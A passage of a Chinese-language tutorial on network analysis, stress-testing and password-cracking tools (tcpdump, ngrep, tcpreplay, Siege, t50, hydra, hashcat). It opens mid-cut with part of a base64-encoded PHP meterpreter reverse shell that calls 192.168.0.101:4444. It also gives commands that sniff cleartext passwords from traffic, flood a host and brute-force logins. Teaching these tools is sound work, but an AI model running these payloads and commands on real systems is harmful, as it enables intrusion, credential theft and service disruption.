AsNCkgPT0gJ2V4aXQnKSB7DQogICAgICAgICAgYnJlYWs7DQogICAgICAgIH1lbHNlew0KICAgICAgICAgICRvdXQ9RllPUWFLaXlxUU5mRE8oc3Vic3RyKCRjLDAsLTEpKTsNCiAgICAgICAgICBpZigkb3V0PT09ZmFsc2Upew0KICAgICAgICAgICAgQHNvY2tldF93cml0ZSgkcywkbm9mdW5jcyk7DQogICAgICAgICAgICBicmVhazsNCiAgICAgICAgICB9DQogICAgICAgIH0NCiAgICAgICAgQHNvY2tldF93cml0ZSgkcywkb3V0LHN0cmxlbigkb3V0KSk7DQogICAgICB9DQogICAgICBAc29ja2V0X2Nsb3NlKCRzKTsNCiAgICB9DQp9JHR5cGU9Im1ldGVyIjskaXA9IjE5Mi4xNjguMC4xMDEiOyRwb3J0PSI0NDQ0IjsNCm1haW4oJHR5cGUsJGlwLCRwb3J0KTs='));
```


### 2 科来技术交流版

科来网络分析系统是网络故障分析、数字安全取证、协议分析学习等使用场景的“利器”。它无需复杂的部署工作，当您有网络流量分析的需求时，可直接安装在您的随行电脑中使用，无论是固定节点使用，还是临检需求，都可以灵活、高效的帮助用户解决网络性能与安全方面的实际问题。

```
科来的特点：
快速查找和排除网络故障；
找到网络瓶颈提升网络性能；
发现和解决各种网络异常危机，提高安全性；
管理资源，统计和记录每个节点的流量与带宽；
规范网络，查看各种应用，服务，主机的连接，监视网络活动；
资产识别与梳理；
```

科来官网：http://www.colasoft.com.cn/    科来网络分析系统下载地址：http://www.colasoft.com.cn/download/capsa.php


#### 2.1 科来技术交流版的安装

由于众所周知的原因，我们这次使用技术交流版，下载好后直接安装即可(windows安装) 。


#### 2.2 使用实时分析功能

启动页面选择实时分析即可。个人觉得很有创意的公司在于把IP所在地有个标识。


其他的功能可以自由发挥了，我们也不是很擅长：）


### 3 tcpdump 

tcpdump：tcpdump是一个用于截取网络分组，并输出分组内容的工具，tcpdump 支持针对网络层、协议、主机、网络或端口的过滤，并提供and、or、not等逻辑语句来帮助你去掉无用的信息。与它功能类似的工具有 wireshark ，不同的是，wireshark 有图形化界面，而 tcpdump 则只有命令行。

```
tcpdump参数：
option 可选参数：
-n：不把ip转化成域名，直接显示 ip
-nn：不把协议和端口号转化成名字
-N：不打印出host 的域名部分
-w  ：后接一个以 .pcap 后缀命令的文件名，保存的文件可以用wireshark打开
-r ：从文件中读取数据
-i：指定要过滤的网卡接口
-Q：选择是入方向还是出方向的数据包，可选项有：in, out, inout
-A：以ASCII码方式显示每一个数据包(不显示链路层头部信息). 在抓取包含网页数据的数据包时, 可方便查看数据
-s : tcpdump 默认只会截取前 96 字节的内容，要想截取所有的报文内容，可以使用 -s number， number 就是你要截取的报文字节数，如果是 0 的话，表示截取报文全部内容。
```

```
tcpdump参数：
option 可选参数：
-n：不把ip转化成域名，直接显示 ip
-nn：不把协议和端口号转化成名字
-N：不打印出host 的域名部分
-w  ：后接一个以 .pcap 后缀命令的文件名，保存的文件可以用wireshark打开
-r ：从文件中读取数据
-i：指定要过滤的网卡接口
-Q：选择是入方向还是出方向的数据包，可选项有：in, out, inout
-A：以ASCII码方式显示每一个数据包(不显示链路层头部信息). 在抓取包含网页数据的数据包时, 可方便查看数据
-s : tcpdump 默认只会截取前 96 字节的内容，要想截取所有的报文内容，可以使用 -s number， number 就是你要截取的报文字节数，如果是 0 的话，表示截取报文全部内容。
```

默认直接启动tcpdump：


第一段：时间
第二段：网络协议 IP
第三段：发送方的ip地址（主机名）+端口号，其中farmsec.lan是主机名，而59482是端口号
第四段：箭头 >， 表示数据流向
第五段：接收方的ip地址+端口号(协议)，其中 162.125.2.5是 ip，而https是协议
第六段：冒号
第七段：数据包内容，包括Flags 标识符，seq 号，ack 号，win 窗口，数据长度 length，其中 [P.] 表示 PUSH 标志位为 1

使用 tcpdump 抓包后，会遇到的 TCP 报文 Flags，有以下几种：

```
[S] : SYN（开始连接）
[P] : PSH（推送数据）
[F] : FIN （结束连接）
[R] : RST（重置连接）
[.] : 没有 Flag，由于除了 SYN 包外所有的数据包都有ACK，所以一般这个标志也可表示 ACK
```

常用useage：

```
tcpdump host 192.168.0.1  			 ###基于IP地址过滤：host
tcpdump -i wlan0 src 192.168.0.1     ###根据源ip进行过滤
tcpdump -i wlan0 dst 192.168.0.1     ###根据目标ip进行过滤
tcpdump -i wlan0 src 192.168.199.206 and dst 192.168.199.152  ###根据源ip与目标ip进行过滤
tcpdump net 192.168.10.0/24          ###基于网段进行过滤：net
tcpdump src net 192.168				###根据源网段进行过滤
tcpdump dst net 192.168             ###根据目标网段进行过滤
tcpdump port 80                     ###基于端口进行过滤：port
tcpdump src port 80                 ###根据源端口进行过滤 
tcpdump dst port 80                 ###根据目标端口进行过滤
tcpdump port 80 or port 8088        ###同时指定两个端口
tcpdump port 80 or 8088             ###也可以简写成这样
tcpdump portrange 8000-8080         ###指定一个端口段
tcpdump src portrange 8000-8080     ###指定一个源端口段
tcpdump dst portrange 8000-8080     ######指定一个目的端口段

tcpdump tcp               ###基于协议进行过滤,常见的网络协议有：tcp, udp, icmp, http,ip,ipv6 等 

and：所有的条件都需要满足，也可以表示为 &&
or：只要有一个条件满足就可以，也可以表示为 ||
not：取反，也可以使用 !
tcpdump src 192.168.199.152 and dst port 3389

当你在使用多个过滤器进行组合时，有可能需要用到括号，而括号在 shell 中是特殊符号，因为你需要使用引号将其包含。比如说在溯源过程中，我发现攻击ip为192.168.199.152，那么我想知道它现在有没有对22以及3389这两个端口进行连接，则可以使用以下命令：
tcpdump 'src 192.168.199.152 and (dst port 3389 or 22)'

提取 HTTP POST 请求中的密码
从 HTTP POST 请求中提取密码和主机名：
-s（为截取前多少字节的内容，如果是0的话则是全部）
-A（以ASCII码显示每一个数据包不显示链路层的头部信息）
-l （基于行的输出）
tcpdump -s 0 -A -n -l | egrep -i "POST /|pwd=|passwd=|password=|Host:"

抓取多协议的用户名与密码
tcpdump port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '

提取 HTTP 请求的 URL
提取 HTTP 请求的主机名和路径：
tcpdump -s 0 -v -n -l | egrep -i "POST /|GET /|Host:"

找出一段时间内发包最多的 IP，或者从一堆报文中找出发包最多的 IP，可以使用下面的命令：
-t （在每行的输出中不输出时间）
-c（为抓取多少个包就退出）  cut(以 . 为分隔符，打印出每行的前四列,取ip)
tcpdump -nnn -t -c 200 | cut -f 1,2,3,4 -d '.' | sort | uniq -c | sort -nr | head -n 20

抓取 DNS 请求和响应
DNS 的默认端口是 53，因此可以通过端口进行过滤
tcpdump -i any -s0 port 53

使用tcpdump -w生成pcap格式的文件。
打开wireshark,点击文件>open>选择pcap的文件
```


### 4 ngrep

ngrep:ngrep工具是grep命令的网络版，ngrep用于抓包，并可以通过正则表达式，过滤、获取指定样式的数据包。能识别TCP、UDP和ICMP协议，理解bpf的过滤机制。可以用来分析、定位服务中的问题。
因为如果包含多个服务的大型服务出现问题，需要逐步分析定位问题到具体的服务。使用ngrep抓包可以确定数据包是否已经到了某个服务模块，从而定位是哪个部分的问题。

使用案例：抓取本地wlan0网口与192.168.0.250的所有通信信息，并且以行来打印出来

```
ngrep -d wlan0 -W byline host 192.168.0.250     ###抓取本地wlan0网口与192.168.0.250的所有通信信息，并且以行来打印出来


ngrep -W byline host 192.168.0.250 and port 80  ###获取本机与192.168.0.250的通信端口为80的信息


ngrep -q -W byline "(GET|POST) .*"              ###抓取所有包含有GET或POST请求数据包

ngrep -q -W byline "login" host 192.168.0.250 and port 80  ###抓取与192.168.0.250通信的80端口并且数据包中包含login的的关键字


ngrep -W byline host 192.168.0.250 or host 192.168.1.250 and port 80 ###抓本机与192.168.0.250和192.168.1.250的通信，并且端口为80

```


### 5 tcpreplay

Tcpreplay是一套免费的开源实用程序集合，用于编辑和重放以前捕获的网络数据流量。最初的目标是重放恶意流量到入侵检测预防系统。 

现在已经有很多用途，例如重放报文到Web服务器等。 

> - tcprewrite – 修改pcap文件，例如修改报文的二层或三层消息头。
> - tcpreplay – 以捕获报文的速度来重放pcap文件，并支持以任意的速度来重放pcap文件。

```
tcpreplay -i eth0 dvwa.pcap
ngrep -W byline -d eth0 host 192.168.0.104


tcprewrite --infile=dvwa.pcap --outfile=dvwa_1.pcap --dstipmap=0.0.0.0/0:192.168.0.104 --enet-dmac=72:d3:35:88:58:e7
tcprewrite --infile=dvwa_1.pcap --outfile=dvwa_2.pcap -C
tcpreplay -i eth0 dvwa_3.pcap
```


## 二 有点刑的工具

### 2.1 Siege 

Siege是Linux下的一个web系统的压力测试工具，支持多链接，支持get和post请求，可以对web系统进行多并发下持续请求的压力测试。

```
Siege命令常用参数
       -c 200 指定并发数200
       -r 5 指定测试的次数5
        -f urls.txt 制定url的文件
        -i internet系统，随机发送url
        -b 请求无需等待 delay=0
        -t 5 持续测试5分钟
        -r和-t一般不同时使用
```

```
1000个并发对http://192.168.199.210发送请求100次
siege -c 1000 -r 100 http://192.168.199.210

# 在urls.txt中列出所有的网址
siege -c 200 -r 100 -f urls.txt 

# 随机选取urls.txt中列出所有的网址
siege -c 200 -r 100 -f urls.txt -i

# delay=0，更准确的压力测试，而不是功能测试
siege -c 200 -r 100 -f urls.txt -i -b

# 指定http请求头 文档类型
siege -H "Content-Type:application/json" -c 200 -r 100 -f urls.txt -i -b


```

Siege输出结果说明:

```
Siege输出结果说明
Transactions: 总共测试次数
Availability: 成功次数百分比
Elapsed time: 总共耗时多少秒
Data transferred: 总共数据传输
Response time: 等到响应耗时
Transaction rate: 平均每秒处理请求数
Throughput: 吞吐率
Concurrency: 最高并发
Successful transactions: 成功的请求数
Failed transactions: 失败的请求数
```


### 2.2 t50

T50可以用于在多种类型的网络基础架构上执行“压力测试”（2.45版本），使用多种协议，可以修改请求的数据包，扩展测试范围（5.3版本），覆盖常 用的协议（ICMP、TCP和UDP）,基础架构协议（GRE、IPSec和RSVP），一些路由协议（RIP、EIGRP和OSPF）。

```
t50 192.168.0.140 --flood   
```


可观察对面主机的CPU、内存、网卡的波动。


## 三 口令破解工具

###  3.1 hydra 

hydra是著名组织thc的一款开源的暴力破解密码工具，功能非常强大

kali下是默认安装的，几乎支持所有协议的在线破解。

```
Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -r        use a non-random shuffling method for option -x
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -K        do not redo failed attempts (good for -M mass scanning)
  -q        do not print messages about connection errors
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)
  
  Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

常用useage：

```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
  hydra -P pws.txt redis://IP
```


### 3.2 弱口令爆破工具 

一款windows下的口令破解工具，用法简单不再赘述。


### 3.3 john 

John是一个破解系统密码的工具。johnny为其图形化版本。

鼠标点着用吧就，毕竟拿到shadow的情形本身就比较鸡肋。


### 3.4 hashcat

支持破解windows密码、linux密码、office密码、Wi-Fi密码、mysql密码、sql server密码、以及md5、sha1、sha256等哈希散列

通过GPU的技术速度更快，由于环境匹配问题，仅测试下Linux shadow的演示。更多细节可以扩展资料阅读即可。

```
hashcat -a 0 -m 1800 pass top500.txt
```

